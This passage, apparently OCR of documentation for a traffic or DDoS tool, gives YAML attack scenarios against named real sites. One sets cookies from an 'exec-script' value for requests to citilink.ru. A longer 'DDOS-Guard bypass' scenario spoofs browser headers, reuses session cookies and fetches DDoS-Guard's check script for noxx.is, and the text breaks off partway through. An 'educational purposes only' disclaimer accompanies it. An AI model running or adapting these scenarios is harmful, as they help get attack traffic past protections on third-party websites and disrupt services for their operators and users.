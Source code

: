 ```yaml
                          method: GET
                          path: https://www.citilink.ru
                          headers:
                            User-Agent: '{{ .Value (ctx_key "data.useragent") }}'
                          cookies:
                            _pcl: '{{ .Value (ctx_key "data.exec-script") }}'
```

- DDOS-Guard bypass (only worked on noxx.is)

```yaml
# this scenario copies the one from https://git.gay/a/ddos-guard-bypass/src/branch/master/index.js
# it is here for educational purposes only and is meant to showcase the capabilities of the tool
jobs:
  - type: sequence # should probably be wrapped into a loop like qrator example, but this way it's easier to debug
    args:
      jobs:
        - type: set-value
          name: useragent
          args:
            value: "{{ random_user_agent }}"
        - type: log
          args:
            text: 'user-agent: {{ .Value (ctx_key "data.useragent") }}'
        - type: http-request
          name: initial
          args:
            request:
              method: GET
              path: https://noxx.is
              headers:
                User-Agent: '{{ .Value (ctx_key "data.useragent") }}'
                Accept: "text/html"
                Accept-Language: "en-US"
                Connection: "keep-alive"
                Sec-Fetch-Dest: "document"
                Sec-Fetch-Mode: "navigate"
                Sec-Fetch-Site: "none"
                Sec-Fetch-User: "?1"
                TE: "trailers"
                DNT: "1"
        - type: log
          args:
            text: 'cookies: {{ cookie_string (index (.Value (ctx_key "data.initial")) "response" "cookies") }}'
        - type: http-request
          name: check
          args:
            request:
              method: GET
              path: "https://check.ddos-guard.net/check.js"
              headers:
                User-Agent: '{{ .Value (ctx_key "data.useragent") }}'
                Accept: "*/*"
                Accept-Language: "en-US,en;q=0.5"
                Accept-Encoding: "gzip, deflate"
                Referer: https://noxx.is
                Cookie: '{{ cookie_string (index (.Value (ctx_key "data.initial")) "response" "cookies") }}'
                Sec-Fetch-Dest: "script"
                Sec-Fetch-Mode: "no-cors"
                Sec-Fetch-Site: "cross-site"
        - type: set-value
```